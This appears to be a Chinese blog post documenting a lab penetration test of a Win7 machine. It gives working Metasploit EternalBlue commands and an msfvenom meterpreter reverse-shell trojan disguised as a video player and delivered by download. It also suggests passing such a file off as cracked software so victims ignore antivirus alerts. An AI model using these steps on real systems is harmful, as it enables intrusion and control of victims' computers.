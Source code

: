 ```yaml
---
layout:     post
title:      "对win7测试机的一次渗透测试实验"
subtitle:   " \"遵守法律\""
date:       2023-12-01 12:50:12
author:     "yangsir"
header-img: "img/post-bg-2015.jpg"
catalog: true
tags:
    - 笔记
    - 渗透测试

---
```


> “Yeah It's on. ”


<p id = "build"></p>

《中华人民共和国刑法》

**非法侵入计算机信息系统罪和非法控制计算机信息系统罪**。未经许可侵入他人计算机信息系统或者非法控制他人计算机信息系统，情节严重的，可以被追究刑事责任。

## 正文

一、

测试机系统：linux

靶机：win7专业版 防火墙关闭

工具:eternalblue



启动metasploit

```
msfconsole
```



搜索模块

```
search eternalblue
```

![image-20231130163657662](\img\image-20231130163657662.png)

使用第一个模块

```
use 0
```

配置

```
set RHOSTS 192.168.171.161
# 要改成靶机的ip
set target 1
```

运行

```
run
```



![image-20231130164627425](\img\image-20231130164627425.png)

验证实验

进入命令行

```
shell
```

在c盘目录下创建文件 lalala.txt

type nul>lalala.txt

lalala.txt增添内容。。。

echo '。。。' >lalala.txt


---

二、社会工程学+shell反弹

实验环境:

靶机：win7 公共网络 防火墙全开

1、生成后门程序

```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.171.151 LPORT=4444 -b "\x00" -e x86/shikata_ga_nai -i 10 -f exe -o /var/www/html/西瓜影音.exe
```

2、在MSF上启动handler开启监听

```
 use exploit/multi/handler
 set payload windows/meterpreter/reverse_tcp
 set LHOST 192.168.171.151
 set LPORT 4444
 run
```

![image-20231201102437445](\img\image-20231201102437445.png)

3、在kail上启动apache为后门程序提供下载地址

```
systemctl start apache2
```

4、打开win7访问搭建的web服务下载执行文件

打开浏览器访问： http://<ip>/西瓜影音.exe

![image-20231201102236515](\img\image-20231201102236515.png)

5、运行文件

你说运行会报病毒？ 那如果它是破解软件、开挂软件或者那个啥呢，无视风险，继续安装？

6、在msf终端查看建立的session

![image-20231201103019373](\img\image-20231201103019373.png)

反弹成功！！！
